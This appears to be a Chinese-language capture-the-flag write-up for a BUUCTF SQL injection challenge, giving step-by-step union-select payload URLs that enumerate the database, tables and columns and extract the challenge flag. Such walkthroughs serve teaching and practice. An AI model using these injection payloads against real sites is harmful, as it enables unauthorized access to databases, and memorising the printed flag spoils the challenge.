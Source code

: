 ## web入门SQL注入-1（[BUUCTF](https://buuoj.cn/challenges)）



### 0x00 判断注入点



```url
http://xxx:81/index.php?id=1
```



发现在id=-1时页面错误 此处有注入点，在id= 3 时 系统给出提示



```url
if too diffcult ,add &tips=1 to the url !
```



将提示输入URL



```url
http://xxx:81/index.php?id=3&tips=1
```



得到sql执行语句提示：



```sql
select * from notes where id ='1'
```



发现id是字符型使用“ ’ ” 闭合



### 0x01 使用‘# 绕过闭合 



**#注释后面语句**



```url
http://xxx:81/index.php?id=3'#&tips=1
```



SQL执行语句为



```sql
select * from notes where id ='3'#'
```



### 0x02 使用order by子句 判断列个数，判断出此页面的列为3个



```url
http://xxx:81/index.php?id=3`order by 3 #&tips=1
```



SQL执行语句为



```sql
select * from notes where id ='3'order by 3#'
```



### 0x03 使用union select 子句测试回显



```url
http://xxx:81/index.php?id=-3' union select 1,2,3 %23&tips=1
```



SQL执行语句为



```sql
select * from notes where id ='3' union select 1,2,3#'
```



得到回显



### 0x04查询数据库名称，用户，版本，操作系统



```url
查询数据库名称，用户

http://xxx:81/index.php?id=-3' union select 1,version(),user() %23&tips=1

查询版本，操作系统

http://xxx:81/index.php?id=-3' union select 1,database(),@@version_compile_os %23&tips=1
```



SQL执行语句为



```sql
select * from notes where id ='-3' union select 1,version(),user() #'

select * from notes where id ='-3' union select 1,database(),@@version_compile_os #'
```



得到

version()	`5.5.64-MariaDB-1ubuntu0.14.04.1`

user()		`root@logistical`

database()	`note`

操作系统		`debian-linux-gnu`



### 0x05查询note数据库下的所有表



```url
http://xxx.cn:81/index.php?id=-3' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='note'%23&tips=1
```



SQL执行语句为



```sql
select * from notes where id ='-3' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='note'#'
```



查询到的结果：



```
fl4g,notes
```



**判断fl4g表为目标表**



### 0x06查询fl4g表下的字段



```sql
http://xxx.cn:81/index.php?id=-3' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='fl4g'%23&tips=1
```



SQL执行语句为



```sql
select * from notes where id ='-3' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='fl4g'#'
```



查询结果为：**fllllag**



### 0x08查询**fllllag**列下数据



```url
http://xxx.cn:81/index.php?id=-3' union select 1,fllllag,3 from fl4g%23&tips=1 
```



SQL执行语句为



```sql
select * from notes where id ='-3' union select 1,fllllag,3 from fl4g#'
```



查询到flag为：**n1book{union_select_is_so_cool}**



### 0x09补充



##### `group_concat()`  将分组中的字符串与各种选项进行连接



##### “#”在URL中不作为有效字符传入SQL语句中，故采用URL编码%23代替



**在MYSQL5.0以上版本中，mysq1存在一个自带数据库名为 information_schema, 它是一个存储记录有所有数据库名，表名，列名的数据 库，也相当于可以通过查询它获取指定数据库下面的表名或列名信息。**



**information_schema.tables        记录所有表名信息的表**



**information_schema.columns        记录所有列名信息的表**



**table_name        表名**



**column_name        列名**



**table_schema        数据库名**



作者：

​		SihUi

